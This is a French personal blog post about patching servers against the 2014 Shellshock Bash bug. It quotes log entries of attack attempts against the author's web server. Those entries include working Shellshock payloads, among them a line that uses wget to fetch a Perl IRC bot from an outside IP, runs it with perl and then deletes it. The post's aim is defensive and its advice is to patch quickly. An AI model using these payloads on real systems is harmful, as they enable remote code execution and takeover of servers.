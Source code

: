 ```yaml
---
layout: post
title: Shellshock, c'est passé à un cheveu
tags: serveur bash
---
```


Retour à hier matin, jeudi 25/9 matin, 9h05, Paris, France.

Comme tous les jours, je rafraîchis mon aggrégateur RSS en marchant vers le métro, et je lis vite tous les titres pour pré-charger les articles à lire avant que je n'aie quasiment plus de connectivité en entrant dans les boîtes à sardine.

Sur Arstechnica, il y a l'article suivant [Bug in Bash shell creates big security hole on anything with \*nix in it](http://arstechnica.com/security/2014/09/bug-in-bash-shell-creates-big-security-hole-on-anything-with-nix-in-it/). *scroll* *scroll* *scroll* ... 5 secondes de lecture en diagonale, et je capte "exploitable à distance" et "pleins de manières de le déclencher" (web server, dhcp, login, etc etc).

C'est du lourd, et facile à déclencher : ça fait donc environ 10-12h que "c'est connu", il faut réagir très vite. *Si c'est pas déjà trop tard !*

# Patch et re-patch

Je m'arrête de marcher, histoire de garder du réseau. Je dégaine [ConnectBot](https://play.google.com/store/apps/details?id=org.connectbot) pour me connecter sur mon serveur chez OVH, puis sur mon serveur de fichier à domicile.

Cing minutes après, il est 9h14, et mes serveurs et VM sont patchées.

	Start-Date: 2014-09-25  09:14:53
	Commandline: apt-get dist-upgrade -y
	Upgrade: bash:amd64 (4.2+dfsg-0.1, 4.2+dfsg-0.1+deb7u1)
	End-Date: 2014-09-25  09:15:04

A noter que j'ai commencé par les serveurs web, les articles reprenant l'utilisation d'appels CGI comme exemple principal : logique, c'est le point d'entrée le plus "facilement accessible".

Je continue mon chemin et ma journée en pensant "*job's done*" ([CVE-2014-6271](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271))

Retour à ce matin, vendredi 26/9, 9h20 à Paris. Comme hier, je rafraîchis ma brouette de RSS, et là *ouch*, un autre article [Arstechnica](http://arstechnica.com/security/2014/09/concern-over-bash-vulnerability-grows-as-exploit-reported-in-the-wild/). Ils n'ont pas l'habitude de faire plusieurs articles pour le plaisir, alors je l'ouvre tout de suite, ça sent mauvais...

Grand bien me fasse, j'apprends que :
- le premier patch n'a bouché le trou des variables d'environnement
- le premier bug est déjà massivement exploité dans la nature

Pire encore :
- il restait deux bugs de [Buffer overrun](https://fr.wikipedia.org/wiki/D%C3%A9passement_de_tampon) exploitables (qui viennent d'être patchés)
- je ne sais pas encore si ces deux bugs sont déjà exploités (plus compliqué que le premier, donc j'évalue *a priori* que non)

Il est 9h39, et à nouveau, mes serveurs et VM sont à jour (à nouveau, je commence par les serveurs web). Ca y est, c'est bon le deuxième bug sus-cité est lui aussi patché ([CVE-2014-7169](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-7169))

	Start-Date: 2014-09-26  09:39:04
	Upgrade: bash:amd64 (4.2+dfsg-0.1+deb7u1, 4.2+dfsg-0.1+deb7u3)
	End-Date: 2014-09-26  09:39:11

Bon, à nouveau, je me dis "ok, tout est sous contrôle". Mais je me dis aussi que c'est suffisement mauvais (et j'ai été suffisement lent hier) pour qu'il y ait un risque que j'aie été infecté... ça vaudrait la peine de regarder dans les logs.

# C'est passé à un cheveu ?

Après avoir lu dans le métro  les commentaires d'un article [slashdot](http://slashdot.org/story/14/09/25/1757208/flurry-of-scans-hint-that-bash-vulnerability-could-already-be-in-the-wild) sur le sujet, je décide de vérifier si mon/mes serveurs web ont été ciblés par les tentatives d'attaque du premier bug. 

A noter que mon serveur est un serveur personnel à très petit traffic, et donc il n'y a donc que peu de chance que je sois une cible "privilégiée", mais par contre il y a toutes les chances que je me prenne des tentatives.

Et clairement c'est le cas, j'ai reçu des attaques !

Le premier attaquant est arrivé 3h20 après que j'ai patché (*soit seulement 13h après l'article !*)

	89.207.135.125
	 [25/Sep/2014:12:37:09 +0200]
	  "GET /cgi-sys/defaultwebpage.cgi HTTP/1.0"
	   "() { :;};
	    /bin/ping -c 1 198.101.206.138"

Je n'étais déjà plus vulnérable, mais dans tous les cas sa première action a été de simplement vérifier si mon serveur était vulnérable (auquel cas j'aurais envoyé un ping à une de ses machines). C'est une bonne manière de "camoufler ses traces" : les machines vulnérables n'ont aucune information sur "ce qui se serait passé si j'étais vulnérable".

Le deuxième attaquant est arrivé 11h après que j'ai patché (24h après l'article)

	82.165.144.187
	 [25/Sep/2014:20:23:17 +0200]
	  "GET /cgi-sys/defaultwebpage.cgi HTTP/1.1"
	   "() { :; };
	    /usr/bin/wget 82.165.144.187/bbbbbbbbbbbb"

Il a aussi tenté d'exploiter le premier bug, et pour ce faire a tenté de faire télécharger un fichier à mon serveur. Actuellement, j'obtiens une erreur 404, donc soit le fichier n'est plus disponible, soit l'attaquant utilise une requête HTTP plutôt qu'un ping pour recenser les cibles vulnérables.

Le troisième attaquant est arrivé ce matin, et était bien plus évolué et offensif que les précédent :

	63.131.141.125
	 [26/Sep/2014:04:15:47 +0200]
	  "GET /cgi-bin/php.fcgi HTTP/1.0"
	  "GET /fcgi-php/php HTTP/1.0"
	  "GET /cgi-bin/php.fcgi HTTP/1.0"
	  "GET /fcgi-php/php HTTP/1.0"
	   "() { :;};
	    /bin/bash -c \"
	     wget -O /var/tmp/wow1 208.118.61.44/wow1;
	     perl /var/tmp/wow1;
	     rm -rf /var/tmp/wow1\" "

Alors là : d'une part il essaie plusieurs URL afin de déclencher un process CGI, et d'autre part il essaie d'infecter sans phase de recensement : en effet, il upload un script perl, l'exécute et nettoie derrière lui. Pour information, le script Perl en question est visible sur [PasteBin](http://pastebin.com/wZb9L2CW).

Il s'agit d'un client IRC qui permet de 
- récupérer des infos système de la cible
- flooder/scanner les réseaux voisins
- de récupérer des fichiers du serveur
- envoyer du mail
- et bien sûr exécuter n'importe quel programme

Bref, simple mais efficace.

# La morale de cette histoire ?

J'ai eu de la chance... car il n'aura fallu que 13h après la publication d'une faille et que je voie de vraies tentatives arriver, et j'ai pu patcher entre temps.

Mon conseil ? 
- Même si on y comprend rien, se tenir informé permet de gagner du temps
- Toujours patcher son système *rapidement*, car "quelques heures" c'est déjà long !

Il existe des outils qui regardent si des mises à jour sont disponibles ([apticron](http://www.debian-administration.org/article/491/Automatic_package_update_nagging_with_apticron) par exemple) : ils sont extrêmement utiles pour être prévenus des upgrades dispo, **et** pour savoir s'il est urgent ou pas de les installer. C'est bien, mange-en !

